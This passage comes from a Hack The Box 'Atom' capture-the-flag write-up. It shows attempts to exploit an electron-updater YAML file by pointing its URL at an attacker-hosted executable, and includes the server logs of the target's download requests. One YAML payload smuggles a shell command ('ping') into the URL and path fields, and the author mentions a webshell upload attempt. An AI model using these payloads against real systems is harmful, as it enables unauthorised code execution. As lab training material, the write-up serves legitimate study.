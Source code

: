 This didn't get a hit.

Then I wanted to try what I think is the correct YAML syntax according to the ansible docs, which is with no hyphens - but I want to include the full URL in the filepath:

```yaml
version: 1.0.1
files:
  url: http://10.10.14.193/heedv1'Setup1.0.1.exe
  sha512: 0BsRscpeO3lQvkaP1fqRYWyw3lelkI/2qJ1BsshauD8kJ39nHJKFanTUVpUNRotgKkVljcEy/Is9U87FIbYrPw==
  size: 73802
path: http://10.10.14.193/heedv1'Setup1.0.1.exe
sha512: 0BsRscpeO3lQvkaP1fqRYWyw3lelkI/2qJ1BsshauD8kJ39nHJKFanTUVpUNRotgKkVljcEy/Is9U87FIbYrPw==
releaseDate: '2021-04-21T11:17:02.627Z'
```

This one got a download request!

```bash
┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ sudo python3 -m http.server 80
[sudo] password for mac: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.237 - - [26/Apr/2021 21:15:00] code 404, message File not found
10.10.10.237 - - [26/Apr/2021 21:15:00] "GET /heedv1'Setup1.0.1.exe.blockmap HTTP/1.1" 404 -
10.10.10.237 - - [26/Apr/2021 21:15:00] "GET /heedv1%27Setup1.0.1.exe HTTP/1.1" 200 -
```

In fact, it got recurring download requests while the file sat in the samba server. So I was on the right track and had fixed the syntax - but still got no netcat hit.

I wondered if I needed to create a blockmap file. First, I tried one last attempt at a command injection:

```yaml
version: 1.0.1
files:
  url: http://10.10.14.193/heedv1';ping -n 1 10.10.14.193;'Setup1.0.1.exe
  sha512: 0BsRscpeO3lQvkaP1fqRYWyw3lelkI/2qJ1BsshauD8kJ39nHJKFanTUVpUNRotgKkVljcEy/Is9U87FIbYrPw==
  size: 73802
path: http://10.10.14.193/heedv1';ping -n 1 10.10.14.193;'Setup1.0.1.exe
sha512: 0BsRscpeO3lQvkaP1fqRYWyw3lelkI/2qJ1BsshauD8kJ39nHJKFanTUVpUNRotgKkVljcEy/Is9U87FIbYrPw==
releaseDate: '2021-04-21T11:17:02.627Z'
```

But I got nothing.

I tried a couple more things here, including trying to upload a webshell into the `/releases` directory (in case files were placed there after being requested), but didn't get anywhere with this strategy.

## Automation

At this point I decided to automate the process in Python. I learned a lot from this process about proper use of `argparse` for building a script with command-line arguments. The code is available [here](https://github.com/Twigonometry/CTF-Tools/blob/master/hack_the_box/atom/send-payload.py).
